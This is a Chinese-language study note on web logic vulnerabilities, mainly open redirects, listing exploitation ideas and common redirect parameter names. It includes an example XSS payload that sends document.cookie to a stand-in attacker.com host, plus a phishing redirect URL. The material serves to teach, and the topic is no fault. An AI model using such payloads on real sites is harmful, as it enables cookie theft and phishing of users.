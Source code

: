 ```yaml
---
title: 逻辑漏洞  
tags:  
  - web安全  
creation date: 2024-03-15  
done: true  
---
```

```ad-info
**逻辑漏洞**：因程序员的思维逻辑的不足，导致编写程序产生的漏洞。与传统漏洞不同点是，逻辑漏洞是用合法的方式就可达成破坏的效果。这类漏洞一般的防护手段或者设备无法阻止，漏洞扫描器也难以发现。  
**常见场景**：大部分出现在互联网等大企业，特别是业务越多，逻辑越混乱出现的可能性就越大。逻辑漏洞更需要的是细心、对业务的熟悉程度，以及广泛的知识面。  
```
# 1. url 跳转漏洞  
---
也被称为开放重定向漏洞，可以跳转到任意指定的 url 。  
服务器端未对传入的跳转 url 变量进行检查和过滤。攻击者可以利用该漏洞来伪造 URL，引导用户跳转到恶意站点，进行钓鱼、诱导下载等攻击行为。  
常出现于接受用户输入并将其用于构建 URL 的场景，例如：  
- 用户身份验证和授权：在用户身份验证和授权的过程中，URL 参数通常用于跳转到另一个页面。例如，在某些网站上，用户必须在登录页面上提供凭据，然后被重定向到其他页面。攻击者可能会利用这种机制，将受害者重定向到一个看起来合法的页面，以窃取其登录凭据。  
- 第三方应用程序：在某些情况下，Web 应用程序可能允许第三方应用程序访问其API，并使用URL参数跳转到其他页面。如果未正确验证和授权第三方应用程序，攻击者可以通过构建恶意 URL 来重定向用户到恶意站点。  
类似的跳转类型：`http://example.com/login.php?redirect=http:http//attacker.com/evil.php`  
攻击者可以通过将恶意站点URL（如 `http://attacker.com/evil.php`）放入`redirect`参数中，使得用户在登录成功后跳转到攻击者的站点上，从而进行一些恶意操作。攻击者还可以利用一些其他技术手段，如URL缩短服务、欺骗用户等，更好地利用该漏洞进行攻击。  

## **1.1 利用思路**  
- 钓鱼网站  
- 配合 xss 漏洞  
    攻击者可以通过 URL 漏洞构造出一个恶意的 URL ，并将其嵌入到一个页面中。当用户点击该链接时，可能会触发XSS漏洞，从而导致恶意代码被执行，例如窃取用户的敏感信息、注入恶意代码等。  
    构造URL如下：  

    ```Plain Text  
    https://www.example.com/login.php?redirect_url=<script>location.href='https://attacker.com/steal.php?cookie='+document.cookie</script>  
    ```  

    当用户点击该链接进行登录时，会被重定向到一个恶意站点，并将用户的Cookie信息传输到攻击者的服务器上，攻击者可以通过获取到的Cookie信息进行后续的攻击。  

- 配合 csrf 漏洞  
- 配合浏览器漏洞：CVE-2018-8174 等  

## 1.2 常见的 bypass 方法  
```ad-note
Url 跳转常用参数：  
redirect, url, redirectUrl, callback, return_url, toUrl, ReturnUrl, fromUrl, redUrl, request, redirect_to, redirect_url, jump, jump_to, target, to, goto, link, linkto, domain, oauth_callback 等。  
```

假设存在如下情况：    
- `www.xxx.com`：存在url跳转漏洞的网站  
    - `redirect`是`www.xxx.com`网站的跳转页面  
    - `login.xxx.com`是该网站的登录页面  
- `www.attacker.com`：攻击者的网站  

